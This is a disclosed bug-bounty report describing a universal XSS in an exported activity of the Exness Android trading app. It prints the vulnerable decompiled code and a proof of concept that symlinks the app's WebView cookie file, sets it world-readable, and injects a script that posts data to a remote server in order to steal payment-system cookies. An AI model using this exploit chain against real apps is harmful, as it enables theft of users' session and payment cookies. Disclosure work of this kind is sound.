 # [com.exness.android.pa Android] Universal XSS in webview. Lead to steal user cookies

## Report Details
- **Report ID**: 532836
- **URL**: https://hackerone.com/reports/532836
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-04-09T20:11:31.259Z
- **Disclosed**: 2022-05-24T15:24:18.079Z

## Reporter
- **Username**: nearsecurity
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: exness

## Vulnerability Information
**Details:**
Package: com.exness.android.pa
Name: Exness
Version: 1.7.5-real-release


**Description**: Third-app may use exported activity to load any url in internal webView. This leads to steal cookies used in trading app, including  cookies of payment system

**Vulnerability description:**
Application has exported activity:
```java
        <activity android:name="com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackActivity" android:screenOrientation="locked" android:windowSoftInputMode="adjustResize">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
            </intent-filter>
        </activity>
```
This activity get 2 extra string from intent:
``` java
       public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        Intent intent = getIntent();
        this.aKn = intent.getStringExtra("smSPageHTML");
        this.aKq = intent.getStringExtra("smSPageURL");
        if (this.aKn == null) {
            this.aKr = chn.m7508a(C3298a.ERROR_CODE_COLLECTOR_CLOSED, null);
            Log.d("SM_SDK_DEBUG", this.aKr.getDescription());
            mo19074b(this.aKr); 
        } else if (bundle == null) {
            getSupportFragmentManager().beginTransaction().add(16908290, chi.m12362c(this.aKq, this.aKn, true), chi.TAG).commit();
        }
    }
```
Then, the activity passes these strings to function chi.m12362c. This function create an intent of class chi (public class chi extends Fragment):
```java
    public static chi m12362c(String str, String str2, boolean z) {
        chi chi = new chi();
        Bundle bundle = new Bundle();
        bundle.putString("smSPageURL", str);
        bundle.putString("smSPageHTML", str2);
        bundle.putBoolean("smHasLoadedSPageHTML", z);
        chi.setArguments(bundle);
        return chi;
    }
```
Then created intent will executed.
Function onCreate of class chi:
```java
public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.aKo = false;
        this.aKp = false;
        this.aKn = null;
        Bundle arguments = getArguments();
        if (arguments != null) {
            this.aKq = arguments.getString("smSPageURL");
            this.aKo = arguments.getBoolean("smHasLoadedSPageHTML");
            if (this.aKo) {
                this.aKn = arguments.getString("smSPageHTML");
                m12353Gc(); // <-- pass to this function
                return;
            }
            new C48221().execute(new String[]{this.aKq});
        }
    }

```

After pass checks, strings of intent used in function m12353Gc:
```java
    public void m12353Gc() {
        if (getView() != null) {
            this.aKv = ProgressDialog.show(getActivity(), null, getString(C3294c.sm_loading_status));
            this.aKp = true;
            this.mWebView = (WebView) getView().findViewById(C3292a.sm_feedback_webview);
            this.mWebView.getSettings().setJavaScriptEnabled(true);
            this.mWebView.setWebViewClient(new C3296b(this, null));
            this.mWebView.loadDataWithBaseURL(this.aKq, this.aKn, null, "UTF-8", null);
        }
    }
```
In this way we load any url with our html code.

**Summary:**
Third app create intent with extra:
smSPageHTML - loaded html
smSPageURL - url context of webview
Then the Exness application will execute this html code on a background of activity where user need to enter his security code.

**Steal cookies:**
This actions does not require root priv.

Third app can create a symlink to cookie file. We use extention html because when it loads in webview, content of this file was interpreted as html:

```java
try {
            Runtime.getRuntime().exec("ln -s /data/data/com.exness.android.pa/app_webview/Cookies /data/data/pwn.pwn/pwn.html").waitFor(); // create symlink to Cookie file
            Runtime.getRuntime().exec("chmod 777 -R /data/data/pwn.pwn/").waitFor(); //set access to everyone
        } catch (Exception e) {
            e.printStackTrace();
            finish();
            return;
        }
        new File("/data/data/pwn.pwn/pwn.html").setReadable(true, false);
```

Then create an intent with malicious javascript, which setup an evil cookie.
After load the symlink, script in cookie will be executed and all of file will be send to server

POC app:
{F465510}

**Screenshots:**
Universal XSS;
code of apk:
```java
                        Intent steal = new Intent();
                        steal.setClassName("com.exness.android.pa", "com.surveymonkey.surveymonkeyandroidsdk.SMFeedbackActivity");
                        steal.putExtra("smSPageHTML", "<html><h1>Universal XSS</h1><script>var form = document.createElement(\"form\");\n" +
                                "    var element1 = document.createElement(\"input\");\n" +
                                "    form.method = \"POST\";\n" +
                                "    form.action = \"https://trade.mql5.com\";\n" +
                                "    element1.value=document.domain;;\n" +
                                "    element1.name=\"text\";\n" +
                                "    form.appendChild(element1);\n" +
                                "    document.body.appendChild(form);\n" +
                                "    form.submit();</script></html>");
                        steal.putExtra("smSPageURL", "https://trade.mql5.com/r/");
                        startActivity(steal);
```
{F465515}

Cookies:
"YOUR COOKIE:" - header of my page where the files are sent and echoed
{F465514}

Cookies of payanyway, qiwi, yandex money, moneta.ru, mql5:
{F465516}
{F465519}

## Impact

Can execute javascript in internal webview.
Can steal user's cookies of payment system and mql5.

## Attachments
- app-release.apk
- Screenshot_20190409-220841.png
- Screenshot_20190409-221332.png
- Screenshot_20190409-224030.png
- Screenshot_20190409-224316.png

